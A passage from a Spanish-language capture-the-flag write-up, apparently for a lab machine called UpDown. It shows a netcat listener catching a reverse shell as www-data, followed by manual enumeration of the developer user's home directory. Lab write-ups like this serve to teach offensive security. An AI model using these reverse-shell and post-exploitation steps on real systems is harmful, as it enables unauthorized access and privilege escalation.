 Ahora, antes de ejecutar se programa un escucha en mi maquina atacante para recibir la conexion
~~~bash
sudo nc -nlvp 4433
~~~

![](updown12.jpg)

~~~bash
sudo nc -nlvp 4433
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.177] 59612
bash: cannot set terminal process group (907): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ 
~~~
Se puede ver que se entablo una conexión con un usuario www-data que es el que hostea el servidor web.
### Salto al usuario developer
Realizando enumeración manual, no se pudo encontrar ningun archivo de configuración para obtener credenciales, entonces saltando a los usuarios se puede ver un usuario developer.
~~~bash
www-data@updown:/$ cd home/
www-data@updown:/home$ ls
developer
~~~
Entrando a su carpeta de trabajo, se puede ver la bandera, pero no se tiene acceso a ella por falta de permisos, tambien se puede ver un directorio "dev"
~~~bash
www-data@updown:/home$ cd developer/
www-data@updown:/home/developer$ ls -la
total 40
drwxr-xr-x 6 developer developer 4096 Aug 30  2022 .
drwxr-xr-x 3 root      root      4096 Jun 22  2022 ..
lrwxrwxrwx 1 root      root         9 Jul 27  2022 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22  2022 .bash_logout
-rw-r--r-- 1 developer developer 3771 Feb 25  2020 .bashrc
drwx------ 2 developer developer 4096 Aug 30  2022 .cache
drwxrwxr-x 3 developer developer 4096 Aug  1  2022 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 2 developer developer 4096 Aug  2  2022 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
-rw-r----- 1 root      developer   33 Oct 24 15:10 user.txt
www-data@updown:/home/developer$ cd dev/
www-data@updown:/home/developer/dev$ ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30  2022 ..
~~~